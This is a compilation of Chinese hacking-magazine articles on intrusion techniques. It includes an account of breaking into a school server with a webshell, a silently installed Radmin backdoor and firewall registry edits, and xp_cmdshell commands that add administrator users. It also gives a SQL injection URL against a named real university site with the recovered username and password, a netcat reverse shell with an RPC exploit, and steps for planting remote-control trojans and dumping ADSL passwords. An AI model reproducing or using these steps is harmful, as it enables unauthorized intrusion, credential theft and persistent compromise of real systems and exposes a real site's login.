`htc.exe` 是本地客户端，用于封装数据并发送到服务端。

```bash
C:\>htc -h
Usage: htc [OPTION]...[HOST]:PORT
Setup a httptunnel connection to PORT at HOST
(default port is 8888)

-A  --proxy-authorization USER:PASSWORD
-B  --proxy-buffer-size BYTES
-C  --content-length BYTES
-D  --debug [LEVEL]
-F  --forward-port PORT
-M  --max-connection-age SEC
-P  --proxy HOSTNAME[:PORT]
-V  --version
```

```bash
# hts 参数（需密码）
-B  --proxy-buffer-size BYTES
-C  --content-length BYTES
-D  --debug [LEVEL]
-F  --forward-port PORT
-M  --max-connection-age SEC
-P  --proxy HOSTNAME[:PORT]
-V  --version
```

`hts.exe` 是服务端程序，用来接收数据包并还原后转发到对应服务。

```bash
C:\>hts -h
Usage: hts [OPTION]... [PORT]
Listen for incoming httptunnel connections at PORT
(default port is 8888)

-C  --content-length BYTES
-D  --debug [LEVEL]
-F  --forward-port HOST:PORT
-M  --max-connection-age SEC
-P  --pid-file LOCATION
```

作者在 LAN 中做了测试：机器 A 为 Win2K Pro+SP4（192.168.0.11），机器 B 为 Win2K Server+SP4（192.168.0.22）。B 开启 IIS/FTP/MSSQL，但经 TCP/IP 筛选仅对外开放 TCP 80 与 1433。

```bash
C:\>fltr --show-all
TCP/IP Filter Manipulator V1.0 By WinEggdrop

IP Address(0): 192.168.0.22
TCPAllowedPorts: -> Permit Only: 80,1433
UDPAllowedPorts: -> Permit All
```

因此 A 不能直接连 B 的 TCP 21。通过 httptunnel：先在 A 端运行客户端，将本地端口数据封装转发到 B 的 80；再在 B 端运行 `hts` 把收到的数据解封并转发到本机 21，从而间接访问 FTP。

```bash
# 机器 A
C:\>htc.exe -F 4444 192.168.0.22:80

# 机器 B
C:\>hts -F localhost:21 80
```

# 傻瓜黑客

转发到本地的 21 端口上来，并且开放 80 端口作为侦听端口。使用 `netstat -na` 可以看到 TCP 80 处于监听状态。如图 2 所示：

```text
C:\>htc -F 4444 192.168.0.22:80
C:\>netstat -na
Active Connections
```

| Proto | Local Address    | Foreign Address | State     |
|---|---|---|---|
| TCP | 0.0.0.0:135      | 0.0.0.0:0       | LISTENING |
| TCP | 0.0.0.0:445      | 0.0.0.0:0       | LISTENING |
| TCP | 0.0.0.0:1026     | 0.0.0.0:0       | LISTENING |
| TCP | 0.0.0.0:4444     | 0.0.0.0:0       | LISTENING |
| TCP | 192.168.0.11:139 | 0.0.0.0:0       | LISTENING |


```text
C:\>hts -F localhost:21 80
C:\>netstat -na
Active Connections
```

| Proto | Local Address | Foreign Address | State     |
|---|---|---|---|
| TCP | 0.0.0.0:21    | 0.0.0.0:0       | LISTENING |
| TCP | 0.0.0.0:80    | 0.0.0.0:0       | LISTENING |
| TCP | 0.0.0.0:80    | 0.0.0.0:0       | LISTENING |
| TCP | 0.0.0.0:135   | 0.0.0.0:0       | LISTENING |
| TCP | 0.0.0.0:445   | 0.0.0.0:0       | LISTENING |


可以看到，有两个 TCP 80 端口处于“LISTENING”状态……重定向的 HTTPTunnel 也畅通无阻，相互不影响。

最后，我在机器 A 上登录 B 机器的 FTP，如图 3 所示：

```text
C:\>ftp
ftp> open 192.168.0.11 4444
Connected to 192.168.0.11.
220 Welcome To WinEggDrop Tiny FTP Server
User (192.168.0.11:(none)): test
331 User Name OK, Need Password.
Password:
230 User logged in, Proceed.
ftp> ls
150 Opening ASCII Mode Data Connection For /bin/ls.
...
226 Transfer Complete.
ftp> bye
221 FareWell
```


可以看出，在 A 机器上连接自身的 TCP 4444 端口，就等于连接到 B 机器的 FTP 上……和一般的 FTP 登录没什么区别。

上面是比较直观的测试，下面我通过使用 Sniffer 软件在机器 A 和 B 上抓取数据包，来对数据流的方向和端口使用情况进行进一步的分析。

我这里用的 sniffer 软件是 WinDump，需要 `WinPcap_3_1_beta4.exe` 的支持。FTP 登录到机器 B 时，在机器 A 上运行 WinDump 抓取数据包，如图 4 所示：

```text
C:\>windump -i 2 -c 5 -n tcp
...
IP 192.168.0.11.1159 > 192.168.0.22.80: S ...
IP 192.168.0.22.80 > 192.168.0.11.1159: S ...
IP 192.168.0.11.1159 > 192.168.0.22.80: . ack
...
```


限于篇幅，这里只抓取了 5 个数据包。可以看到 A 和 B 顺利进行了三次握手，建立了 TCP 连接，然后通过机器 B 的 TCP 80 端口开始传输数据。

使用 `netstat -na` 查看，结果如图 5 所示：

| Proto | Local Address      | Foreign Address    | State       |
|---|---|---|---|
| TCP | 192.168.0.11:1158 | 192.168.0.11:4444 | ESTABLISHED |
| TCP | 192.168.0.11:1159 | 192.168.0.22:80   | ESTABLISHED |
| TCP | 192.168.0.11:1160 | 192.168.0.22:80   | ESTABLISHED |
| TCP | 192.168.0.11:4444 | 192.168.0.11:1158 | ESTABLISHED |


同时在机器 B 上也使用 WinDump 抓取数据包，如图 6 所示：

```text
C:\>windump -i 2 -c 6 -n tcp
IP 192.168.0.11.1162 > 192.168.0.22.80: S ...
IP 192.168.0.22.80 > 192.168.0.11.1162: S ...
IP 192.168.0.11.1162 > 192.168.0.22.80: . ack
...
```


使用 `netstat -na` 查看，结果如图 7 所示：

| Proto | Local Address    | Foreign Address    | State       |
|---|---|---|---|
| TCP | 127.0.0.1:21    | 127.0.0.1:1186    | ESTABLISHED |
| TCP | 127.0.0.1:1186  | 127.0.0.1:21      | ESTABLISHED |
| TCP | 192.168.0.22:80 | 192.168.0.11:1162 | ESTABLISHED |
| TCP | 192.168.0.22:80 | 192.168.0.11:1163 | ESTABLISHED |


可以看出，在 A 和 B 建立连接以及通信的过程中，确实使用的是 TCP 80 端口……这里就是机器 B 的 FTP 服务。

### 注意事项

细心的读者可能会注意到 htptunnel 的 Client 端 htc 还有一个参数 `-P`……下面就简单介绍一下。

我个人认为，这个参数用于当目标机器进行了安全设置，对一些 IP 地址进行了过滤的情况下使用……使用代理可以隐藏攻击者的真实身份。

例如机器 B 进行了设置，不允许机器 A 的 IP 地址访问，但是机器 C 可以访问到 B。

这样，在机器 C 上运行代理软件，然后 A 通过连接 C，再连接 B……

`C:\>htc -F 4444 -P 192.168.0.33 192.168.0.22:80`

因为默认的 HTTP 代理端口是 8080，所以这里不用再写出来……最后再由 hts 把发送过来的数据处理，转交到机器 B 本身的 FTP 服务上。

### 小结

如果机器安装了防火墙，那也只能记录正常的 TCP 80 端口的访问连接……因为没有绝对的安全。

## 穿过 XP SP2 的防火墙入侵


学校的一台服务器，双 CPU，2G 内存，200G 硬盘，以前是 2003 的系统。半年前，我通过服务器上的动力文章系统漏洞得到了 webshell，进而拿到了系统权限。因为它直接开了 3389，我就“完整”了管理员，放了一个 asp 木马，别的没有怎么做手脚。

但是直到前几天我再用 3389 登录的时候，发现已经不能连接上去了。马上在 IE 地址栏里输入留的 asp 木马地址，提示找不到文件。我知道失去了一台肉鸡了，后悔当初没有好好珍惜。当然很不甘心，决定再探个究竟。

首先是扫描，发现开放了 80、443、8080 端口。以前它是用 APACHE 做的服务器，这个我知道。但是以前能扫描到其他开放端口，现在只得到这三个必须开放的，说明对方主机可能使用了防火墙。到目前为止我还以为它还是 2003 系统，我想 2003 也没有什么好利用的漏洞啊，那么仍旧从网页入手吧。

以前的入侵结果告诉我，这台主机上绑定了 3 个 IP，分别绑定了一个 asp 网站、一个 php 网站和一个电影服务器。现在再看，发现那个 php 的已经改成了一个文档下载的。查看其中链接的属性，没有扩展名，但是和以前一样，对应的 8080 端口，这个好像能利用的可能不大。而 80 端口对应的还是那个 asp 网站，以前就是通过它入侵的，这次看来还要用到它。怎么用呢？它以前因为是低版本的动力文章系统，存在 SQL 注入，被我猜到管理员密码才得逞的，但是现在已经升级成新版本了，再注入，我是没有那个本事。

正苦闷，猛然想起我记得以前的管理员密码，因为太好记了，所以现在还记得。试试先，打开管理员登录页面，输入我记忆中的密码，居然咯噔一下进去了！心里那个美呀！然后怎么办？想必大家都熟悉死了，当然是上传一个改了扩展名的 asp 木马，然后通过动力文章自带的数据库备份功能，把它还原成可爱的 asp 木马。我刚开始上传的几个都没有成功，估计是被杀毒软件给杀掉了。

正好那天下了海阳顶端 2006 版，马上用 screc 加密工具加密。加密以后我根本看不懂，同时杀毒软件也看不懂了，这次成功上传；顿时感觉到 2006 版的强大功能。同时发现对方的系统原来是 XP 的。因为这些大家都非常熟悉，我都很简略地说了。其实现在得到了个 webshell，好像离系统权限似乎很近了，但是我实际入侵中却是相当不容易的。

首先在海阳 2006 的系统服务信息里查看开放服务，没有发现 SERV-U 的踪影，通过它提升权限的路被封了。但是获得了 APACHE 的版本信息（你说什么？对 apache 溢出？算了吧，对我来说那都是传说）。通过服务名为 AVP 判断，对方主机安装了卡巴斯基杀毒软件。同时发现开放服务里有 Windows Firewall/Internet Connection Sharing (ICS)，这个好像是 SP2 自带防火墙的服务窗口。学校那些升级倒是非常勤，什么都用最新版本。查看开放端口，发现有 80、85、3306、3389、8080 等，那么我扫描不到的这些端口都被防火墙保护起来了。

但是这个 asp 木马权限太小了，我想装个后门，这样的权限是不可能的。但是现在怎么才能提升权限呢？

哈哈，想起上次还是 2003 系统的时候，我是怎么得手的了，现在故伎重施。说起来上次也是运气，因为对方支持 PHP，我就传了个 flame.php 上去，结果发现居然是系统权限。因为我所听说 Windows 系统上默认安装的 apache 是以 system 权限运行的，如果对方的安全模式还没有打开的话……上次真好运，这些条件那台主机都满足，于是我通过 flame.php 得到了系统权限。

那么这次呢，不管那么多，试试先。这次传了个 phpspy 上去，传到 8080 端口对应的网站目录下，木马能够运行，看来还好，我本来还怕它不支持 PHP 了呢。用木马自带的 PHP 环境变量，发现运行于安全模式居然还是 NO，这样子我当然喜欢了（如图 1）。

PHP 环境信息（含运行方式、PHP 版本、安全模式、文件路径及相关配置项）

图 1

在 webshell 模式里以 system 函数运行 `net user guest /active:yes`，成功！那么可以肯定，和上次一样，现在得到了一个具有 system 权限的 webshell。然后呢？因为 XP 系统的远程登录十分变态，我要是通过 3389 登录了，会把对方通过 3389 登录的用户踢下去，一下子就被发现了。况且现在因为对方防火墙的限制，我还连不上它的 3389，所以就想留个别的后门。

至于留什么后门，如何不被频频升级的杀毒软件给干掉，还是留个 radmin 好，因为我知道卡巴斯基不杀它，见过谍影杀它。把需要用到的文件 `r_server.exe`、`admdll.dll`、`raddrv.dll` 和已经做好的 `server.reg` 通过 phpspy 上传到目标主机，然后在 webshell 模式里分别运行：

```text
regedit /s server.reg
r_server.exe /install /silence
net start r_server
```

很顺利地看到了 `r_server` 服务成功启动，用 `netstat -an` 查看也发现我们设定的 4000 端口已经打开（如图 2）。

命令执行结果（`netstat -an`，Active Connections）

图 2

马上用 radmin 连接它的 4000 端口，提示连接不上，看来是防火墙干的。用 `net start` 和 `tasklist` 查看，没有发现别的防火墙开的服务和进程。那么除了系统自带的防火墙以外，没有其他防火墙，就要想办法干掉 SP2 自带的防火墙了。SP2 刚出的时候，不少人对它自带的防火墙评价很高，我也觉得做得像专业防火墙了，可是它到底安全系数有多大呢？上 Google 找了一下，发现早就有前辈发现它的弱点了，原来 SP2 的防火墙配置信息都存到注册表里：

# 傻瓜黑客

`HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\SharedAccess\Parameters\FirewallPolicy`

这个地方，在木马的 webshell 模式里运行：

`regedit /e firewall.reg HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\SharedAccess\Parameters\FirewallPolicy`

导出后下载到本地修改。

```text
HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\SharedAccess\Parameters\FirewallPolicy\StandardProfile\GloballyOpenPorts\List
```

> “端口:协议类型” = “端口” 协议类型，允许连接的 IP: Enabled/Disabled，要在防火墙项目中显示的名字

其中端口就是服务开放端口，协议类型可为 TCP/UDP；允许连接的 IP 可写 `*` 或 `IP地址/掩码`，例如 `192.168.0.0/255.255.255.0`。文中示例将 radmin 开放到 4000 端口并重命名，通过导入修改后的 `firewall.reg` 后即可连入。


很明显，对方主机安全配置存在问题，防火墙策略留下了可利用入口。作者感慨微软防火墙虽配置了阻挡策略，但仍给了可乘之机，并表示文章若有错误请指正。


（文章相关工具：配置好的远程控制 radmin，光盘中有收录。）

## HDSI 2.0X 版特色大解说

小静静的老公仔

“NBSI 的时代已经过去，HDSI2 的时代到来。”文章延续上期内容，介绍新版入侵工具 HDSI 2.0（黑客 X 档案专用版）及其改进点。


该版本发布于 2005 年，作为专题定制版，集成常用入侵功能，并在速度与稳定性上改进。文中提到其具备获取 shell、抓肉鸡等能力，强调需先配置代理、账号密码与服务器端口后再使用。

随后介绍“旁注/IP 域名”模块流程：输入域名、查询绑定 IP、再进行上传页面等操作。作者指出其在 cookie 获取与修改方面不算强，但执行速度快、流程简洁，且对 ASP/PHP 网站注入支持较好。

## ASP 注入简介

开始，找到你的目标网站，然后进入“扫描注入点”板块，输入网址，即可开始扫描此网站的注入点了。这里很简单，不多说，找个图片，大家看看就好，如图 2。呵呵，注入点一大堆哦。大家这次爽了吧。


继续，返回到第一个板块→“注入分析”，把刚才扫描到的注入点输入，然后就开始注入吧。接着就是猜解“表名”了，再接着猜解“列名”，然后就是把密码和用户名猜出来，再转到“扫描后台”板块，把后台扫描出来，就 OK 了……这些事情就留给大家自己体验了，如图 3。


同志们，有句话是这么说的，“自己动手，丰衣足食”哦。还有个跨库的功能，就是说可以查出此服务器上的其他数据库，并且进行跨库查询，这也很有用的哦。前段时间还流行这跨库入侵呢，好好地利用这个功能，说不定在你平时入侵棘手之时，会给你一个很大的帮助呢！图 4。


“高级命令”这个板块，平时很少人用到，其实这是很重要的哦。利用得当的话，可以让你在仅拥有一个注入点的情况下，不用得到 shell，加上简单的几条 cmd 命令，或者 SQL 命令，就有控制服务器的可能哦。

在“命令行执行”这个栏目，有 cmd 命令和 SQL 命令的选项。如果权限足够，你可以直接添加系统用户；如果使用 SQL 命令，你可以直接添加数据库用户，然后用光芒的那个登录器来登录。这里我把常用的 cmd 命令和 SQL 命令列出来给你们吧。

- DOS 命令——列目录  
  `dir c:\`  
  `dir c:\`

- DOS 命令——添加管理员  
  `net user MyName 123456 /add`  
  `net localgroup Administrators MyName /add`

- SQL 语句  
  `exec xp_cmdshell 'net user MyName 123456 /add'`  
  `exec xp_cmdshell 'net localgroup Administrators MyName /add'`  
  `exec master..sp_addlogin 'UserName','PassWord'`  
  `exec master..sp_addsrvrolemember 'UserName','sysadmin'`

如果 `xp_cmdshell` 存储过程被删除了，我们可以直接恢复，有个恢复 cmd 的功能；另外，我们如果利用命令建立用户成功了，那么这里作者给大家提供了一个方便的功能——直接开终端 3389 端口，如图 5。


我这里执行了 `exec xp_cmdshell 'net user MyName 123456 /add'`，得到的返回结果是成功的，那么说明我们加用户成功了。接着就用：`exec xp_cmdshell 'net localGroup Administrators MyName'` 这条指令添加为管理员，那就 OK 了。然后就是用 SQL 连接器连接了。还有个注册表操作，也可以读出注册表的内容，如图 6。


这个功能的作用说大不大，说小不小。如果读出了注册表的内容，可以直接从 SQL 命令那边创建用户。还有开 3389，刚才我们前面开 3389 就是通过注册表来实现的。不过作者为了方便用户，把它简化为一个按钮而已。

# 傻瓜黑客

要做黑客，必须学很多计算机的相关知识。没有耐心、没有恒心的人，请你放弃吧。再看看“列目录”这个栏目，呵呵，只需一个注入点，就可以列出它的系统目录了，如图7。

这里再配合“上传文件”这个板块，那么就可以很另类地获得 WebShell 了，如图8。

上传方面，我们可以通过两种方式，第一种失败的时候可选第二种。第一种是存储过程来上传，另一种是把你要上传的数据写到一个表里，然后再通过备份这个表到指定的目录，具体原理也不多介绍了。就是说获得 WebShell 的思路吧：当一个站我们只获得一个注入点，并且是有权限的，那么我们可以通过列目录去找到网站的根目录，然后通过上传文件，直接写个 shell 进去。呵呵，不错吧，看你们的运气咯。

好啦，ASP 注入的基本方法，和平时别人比较少用的方法和思路，我都交给大家。后面的就靠自己去发挥了。现在我们转到 PHP 注入了，前面不是说了吗？这款是专门的注入工具，怎么能少了 PHP 的注入。

## PHP注入详解

首先自己去找个 PHP 注入点，当然了，不可以利用扫描注入点的功能（因为那个扫描是针对 ASP 程序的）。至于如何找 PHP 注入点，搜一下，有很多的文章可以看。2005 年第 3 期的《黑客X档案》中，也有泛蓝的辐射鱼写的一篇 PHP 注入的文章，很详细，大家可以去翻翻看。这里我找到了 PHP 注入点，就给大家实例注入看看吧。

把 PHP 注入点填写好，再把“关键字符”填上。填什么呢？就填写你打开注入点的那个网页的其中一串字符，开始注入。注入完成后，就跟前面 ASP 注入一样，把表名、列名猜解出来，如图9。

接着，是用户名字和密码的猜解了，这些需要手工做点活。我们把猜解的网址直接在 IE 中打开，可以看到如图10，有个“2”跟“5”的地方。我们把 2 跟 5 分别填写到字段一和字段二，如图11。

```text
http://www.lnnu.edu.cn/news/listdetail.php?id=331/**/and/**/1=2/**/union/**/select/**/1,username,3,4,password,6,7,8,9,10,11,12,13,14/**/from/**/ymnews_user/**/where/**/id=1/*
```

猜出来了，看看……如图12：用户名：lnnunic，密码：878qbPjm。然后就是扫描后台，用这个用户名和密码登录了。这等简单的事情，还是留给大家自己亲手体会了，我就不再班门弄斧了。

## WebShell注入点管理

这里作者还给大家提供了一个方便之处，可以让大家方便地管理自己曾经找到的注入点。有时候，得到 WebShell，但是一时之间找不到攻破主机的办法，就搁浅着，等以后有灵感，再去攻。

总结：这个工具给我们的入侵带来了不少的方便啊。我用了这款工具，总的感觉来说，比同类工具的注入速度、猜测速度都要快，也肯定是作者优化了一些代码吧。朋友们，在享受快乐的同时，我们也要多谢一下在背后辛辛苦苦开发工具的“伟人”啊——HDSI2 的作者毅辛，让他开发出了那么好的工具给我们使用，我们才可以更好地体验、学习入侵。并且这款工具是最新的、最优化的，专门给《黑客X档案》打造的，毅辛还会继续提高 X 档案哦。

## 脱防火墙后面的脆弱

剑心 [B.C.T]

现在的人们，好像基于系统的攻击已经越来越少了，大部分都已经转向了脚本方面的攻击。其中一个很大的原因，我想是因为很多主机都配置了防火墙，把已经脆弱的主机和危险的因特网划清了界限。

攻击防火墙不是一般的人可以做到。很多的黑客教程开篇，在正式攻击之前都会先 Telnet 某一个端口，看响应时间或者用其他方式来探测是否有防火墙。对于有防火墙的，大部分人都会退却，或者只能寻求脚本方面的攻击。相对于系统攻击来说，脚本攻击成功后获得权限很低，并不能一下子就获得入侵者所需要的东西，他们需要耐心和长时间的等待。

防火墙并不是一个多么有意思的东西。管理员装个防火墙之后就可以不必理会很多东西，譬如一些针对 445 及其他常见端口的攻击，因为它可以保证极少的东西对外敞开。对于入侵者呢，初级入侵者对防火墙肯定会望而却步。

这种假象给有耐心的入侵者的是什么呢？假设入侵者不能直接闯进系统，而是通过 80 端口，也就是脚本攻击，得到了所谓的 WebShell（权限很低）。假如管理员认为主机是安全的话，就不会对主机做很多配置，他会认为防火墙和杀毒软件做了一切！

- 1. 如果管理员为了管理方便，在服务器上装了 pcAnywhere 服务端，那么，到系统盘的 `Documents and Settings/All Users/Application Data/Symantec/pcAnywhere/` 中下载 `.cif`，本地破解后使用 pcAnywhere 连接就 OK 了。  
- 2. 如果一些系统服务，或者随系统自动启动的程序和管理员经常使用的软件，处于默认可写的目录，而且你有权限写的话，还犹豫什么呢？先改掉名字然后绑定木马传上去替换吧！  
- 3. 还是配置的原因，你可以留心下 `conn` 和 `config`、`pass` 这类型的文件，运气好的话还真有点好东西的。  

还有很多其他的，好像都是在钻管理员的空子，但是这些都是谁给我们的呢？不就是可爱的管理员么？不就是因为管理员对于防火墙类软件的信任么？

这里就不说泛滥一时的 Serv-U 的本地溢出了，而这也恰恰是底线主机的杀手。我们来看看一个例子吧！`www.xxxx.com` 是我们要得到权限的目标网站，扫描结果如下图1。

本来就不抱什么希望，很明显存在防火墙，我们只有 80 可以访问。于是去看看脚本方面的漏洞，发现目录是在一个 upload 目录下，结果很明显存在那样一个上传文件的地方，如图2。

于是拿 WIS 跑了一下，确实是存在一个文件 `upfile.asp`。直接访问之后提示没有选择文件，跟着网页一模一样（现在都不知道是什么系统，估计是差不多的代码），如图3。于是用工具上传 WebShell！完毕！

之后发现可以执行一些普通权限的命令，但是有很麻烦的问题：我们可以访问一些关键目录，但没有 Serv-U。可以改掉现在的瑞星程序名，然后替换为自己的程序，但是那需要机器重启，才知道什么时候他会重启呢。

于是 `netstat -an` 看到机器的 139 和 445 都开启着，忽然想到如果管理员对防火墙太过重视的话，也许会忽略掉本身的一些漏洞。如果他并不是对一些漏洞很重视的话，也许就不会积极地给一些漏洞打上补丁（很简单的思维可是很重要哦）。

于是马上将 nc 传到主机上，反向连接并绑定 cmd.exe。我得到了低权限的 cmdshell 了！接着上传不久前流行用的 rpc 溢出程序，直接在反向过来的 shell 里得到另一个高权限 shell，兴奋地 `net user jnc 123 /add` 一下！看看结果吧，如图4。

嗯嗯，不需要说什么了吧！看看管理员为自己对防火墙的信任都付出了些什么吧！RPC 的溢出结果可是最高权限的 shell！本来想试试最近的 ms04044 在反向 shell 里运行结果怎样，试了 n 次失败 n 次……

还有以前危害面很广的 RPC 溢出，一些管理员都屏蔽掉了 445 之类的端口，但也许只是屏蔽。当我们已经在防火墙后面的时候，我们面对的只是一个不设防的城市。不要不相信你的眼睛！

知道了这种绕到敌人后方的攻击方法后，你还像以前那样信任防火墙或者害怕防火墙么？其实只有自己的安全意识提高才是最好的防火墙，多打补丁、多做些安全设置才是最重要的。没有什么绝对的安全！

> （本文涉及到的工具 WIS、RPC 溢出、文件上传工具，光盘有收录。）

# 傻瓜黑客

## 菜鸟学技术

## 工具组合很重要

郑文杰

从第一次见到 X 到现在，已经将近一年的时间了。刚开始时，确实看得头晕，连最基本的名词术语都不知道，更别提什么入侵别人。虽然我连菜鸟都算不上，但我肯学、敢学，于是跟着《傻瓜黑客》栏目开始学着做些简单活儿……

前段时间看到 X 上对破解 ADSL 上网的账号和密码有介绍，其中 2004 年第 12 期上的方法蛮适合菜鸟，但是里面的工具 PasswordViewer 的配置实在是太麻烦，其实用超星阅读器按开关的方法效果不错……

这个工具同 WebDAV 组合起来破解 ADSL 账号密码，简直易如反掌。

我们最好先点击“检测共享”按钮，做到心中有数。这样几乎很容易就将 Radmin 的服务器端种植到我们搜索到的空密码主机中。相反，如果检测不到共享，就会提示无法复制文件。完成后，会有提示：程序将在一分钟后启动。

图4中，我们可以在这个时候打开 Radmin 的控制端，建立一个新的连接，输入 IP，端口改成修改版中的 318，密码 heiyubai，然后等待肉鸡上线……

接下来干什么呢？还是看看他的上网账号和密码吧！将我提前准备好的武器 lsadump2，通过 Radmin 的文件管理传到他的系统文件夹下，然后通过 Radmin 的远程 Telnet 功能，在命令提示符下输入 lsadump2 让其运行起来（图5）。

我这次是先入侵，后获取账号密码。首先打开啊D网络工具包，点击“肉鸡查找”选项，设置与自己同网段的 IP，点击查找即可，一会儿就会搜索到空密码主机（如图2）。针对 Win2000 主机，我们用木马（IPC）种植机，将提前配置好的后门程序种植到搜索来的主机中……

在出来的内容里找到类似下一段：`LSA_RasDefaultCredentials`，其中 @adsl 前后分别是账号和密码。具体怎么区分，你可以用自己的机子试试，很容易找到。

我这次总共用到了三种工具：啊D扫描、种植木马、Radmin 传文件/远程 Telnet、lsadump2 查看账号密码。

> 这些是临时兴起、增强信心的保证，但真学真正的技术，还要从一点一滴做起，才不会变成只会用工具的 toolkid。  
> （文章的相关工具：啊D网络工具包、Radmin 修改版、lsadump2、ARISKKEY 等。）

## 检测捆绑文件的逻辑方法

天涯衰草

众所周知，现在各种恶意程序已经成为威胁网络安全的重要因素之一。黑客在配置完恶意程序后，常常会通过各种方法对其进行伪装。在这些方法当中，黑客最常用也是最主要的方法，就是将恶意程序和其他的正规文件捆绑到一起，然后通过各种欺骗手段让对方运行伪装好的“正规”程序。当用户运行该文件后，恶意程序也随之悄然地进入用户的系统中。

虽然用户常常可以通过杀毒软件来识破这一欺骗手段，但“道高一尺，魔高一丈”，由于木马的不断更新，杀毒软件也往往很难在第一时间对其进行查杀，所以这样也增大了用户中木马的几率。其实，对付这种捆绑文件并非无计可施，比如利用 WINHEX 等软件，对可疑文件的文件头标志进行分析后就能露出它的狐狸尾巴。

但是对于我们这些菜鸟来说，通过 WINHEX 等软件进行判断的方法显得过于繁琐和复杂，所以今天，笔者就为大家介绍三款小工具。它们虽然不能对伪装的木马进行查杀，但是可以检测出 EXE 文件是否被捆绑了其他文件或是附加数据，从而避免我们成为黑客手中的肉鸡。这三款软件不但体积小巧、简单易用，而且还是绿色软件。

首先为大家介绍的这款工具名为“FBFD”。工具运行后，点击“Target”后面的“...”按钮，选择需要检测的程序，或者直接将要检测的文件拖放到工具窗口，然后点击“Process File”按钮进行文件扫描。如果没有被捆绑其他文件，软件就会显示：Nothing detected, the file looks clean；如果文件被捆绑有其他文件，就会显示：449C7h extra bytes found, starting at offset 6000h，这就是多余数据的程序位置（提示语句会根据检测文件的多余数据不同而不同），同时还提示用户是否清除多余的捆绑数据；如果要清除就点击“Clean File”按钮就可以了（如图1）。

不过笔者在测试后发现，在清除捆绑的数据后，剩下的正常文件也往往不能正常运行。想想既然文件有问题，我们还运行什么呢？

如果你觉得英文软件用得不顺手，下面这款名为“MT捆绑克星”的全中文操作界面工具你一定会满意。运行 MT 捆绑克星，然后点击“浏览”按钮选择用户有疑问的文件，再点击“分析”按钮，MT 捆绑克星就会对文件是否进行过捆绑进行判断。如果没有进行过捆绑，程序就会提示“文件通过常规安全检查，可以使用！”如果捆绑有其他文件，程序就会提示“文件可能经过捆绑，请小心使用！”（如图2）。这样的话，我们在使用前就要很好地考虑一下呢。不过“MT捆绑克星”只能对 EXE 文件进行分析，而不能对其他类型的文件进行分析。

下面介绍的同样是一款中文操作界面的工具，是由灰鸽子工作室推出的。运行该工具后，通过点击“选择文件”按钮来选择用户觉得可疑的文件进行分析。如果文件没有进行过捆绑，程序就会提示“结果：code.exe 正常”；如果捆绑有其他数据，程序就会提示“结果：Bindok.exe 有捆绑数据存在”（如图3）。

随着黑客技术的不断发展，上面介绍的这些方法也不能百分之百保证判断的准确性，所以我们在利用工具的同时还需要提高自己的防范意识，这样才能做到拒敌于千里之外。

> （文中的相关工具：FBFD、MT捆绑克星、灰鸽子 exetool，光盘中有收录。）

## 用WINPE更改WIN2K或WINXP管理员密码

振东 & 涛子

如何更改 Win2K 及 WinXP 中管理员的密码，在《黑客X档案》中介绍过多次。有些方法虽然实用，但对我等小菜来说还是有些繁琐，稍一疏忽，就有可能“贻笑大方”，呵呵！这不，我找到一个非常简单的更改管理员密码的方法：用 WINPE——一个可在光盘上运行的操作系统，只要几分钟的时间，即可轻松搞定管理员的密码。那场面，一定会让 MM 对你的崇拜指数上升 N 个百分点！

第一步：从网上下载“深山红叶”袖珍系统工具箱。该软件集成了 WinPE 光盘操作系统、微型 Linux 系统及众多实用的 DOS 程序。该软件为 ISO 格式，可直接刻录为引导光盘，容量为 200 多兆。一般 8 厘米的小刻录盘就可装下，方便携带，实属居家外出之必备工具。  

第二步：设置 CMOS 中的启动顺序由 CDROM 启动，放入刻录的“深山红叶”光盘，重启系统进入“深山红叶”启动菜单，如图1，选择第一项“[1] Windows PE(XP)光盘工具箱”启动 WINPE 系统。显示的启动画面还是“WINXP Professional”呢！在光驱灯与硬盘灯一阵狂闪后，系统启动完成，如图2，桌面背景蛮惑人的！

第三步：依次点击“开始→强力系统修复 ERD 2003→首先在此设置当前系统目录！”，在弹出的“浏览文件夹”窗口中选择 WIN2K 或 WINXP 系统目录，如图3。接着仍是进入“强力系统修复 ERD 2003”菜单，选择“修改用户密码（LockSmith）”，然后按照 LockSmith 向导一步步操作。在对账号设置新密码时，默认显示的账号是“Administrator”，点击账号中的下拉箭头，选择要修改密码的账号，然后在“新密码”与“确认密码”框中填入新的密码，如图4，点下一步，就完成了密码修改。

第四步：点击 WINPE 系统中的“开始→重启系统”，在重启过程中弹出光盘，进入正常的 WIN2K 或 WINXP 系统，选择刚才更改的账号，输入修改后的密码，屏幕显示正在加载用户信息……说明密码更改成功。

修改管理员密码只是 WINPE 系统中一个功能，它还有更多实用的功能，就留给各位朋友慢慢研究吧，有好的心得体会别忘了拿出来共享喔！

本工具在 NTFS + WINXP、NTFS + WIN2K 环境测试成功。

## 从QQ看出的绝世创意：又一处启动方法的发现及利用

源ぁ浪

首先要声明，这也许并不是什么新大陆的发现，也许只是我刚刚才知道罢了。

### 一、巧遇

说起这个发现，还得追溯到 QQ2005 新版的推出（QQ2005 beta1 于 4 月 5 日推出）。那天刚安装完 QQ2005 beta1，照常到注册表启动项——“启动”文件夹删 QQ 快捷方式，可发现居然没有该快捷方式，心想腾讯良心终于发现了……没想到第 2 天开机时却发现速度慢了很多，不一会 QQ 蹦了出来。我再找了一下启动项，没发现什么异常。突然又想起那个 LOAD 值，也去查了一番，居然还是没有。无奈，只好去下载珊瑚版了。

```text
注：启动有关的注册表位置（共3处）：

[HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run]

[HKEY_CURRENT_USER\SOFTWARE\Microsoft\Windows\CurrentVersion\Run]

[HKEY_CURRENT_USER\Software\Microsoft\Windows NT\CurrentVersion\Windows] 下的 LOAD 值。
```

后来我实在生气，心想一定要弄出个究竟来。于是又重装了 QQ，启动 WINDOWS 优化大师。这无意中还真管用，果然查出了 QQ 启动的文件夹，是在 `C:\WINDOWS\HTML`（如图1）。

接下来该干什么不用我说了吧。要么在优化大师里杀了它，如果不解气，直接冲到那个文件夹删！我是属于后者。

### 二、对峙

既然知道在这个文件夹下的 QQ 能够在开机自启动，那么我们需要验证一下这个文件夹是否能启动其他程序。于是我随便放了个 TXT 文件和 EXE 文件，让系统注销后再登录，启动成功。说明这个文件夹的确有自启动功能。

聪明的读者一定想到了：如果我们把木马放在这样一个文件夹里，岂不是很隐蔽？巧合的是，我的机上已经有这种病毒了。

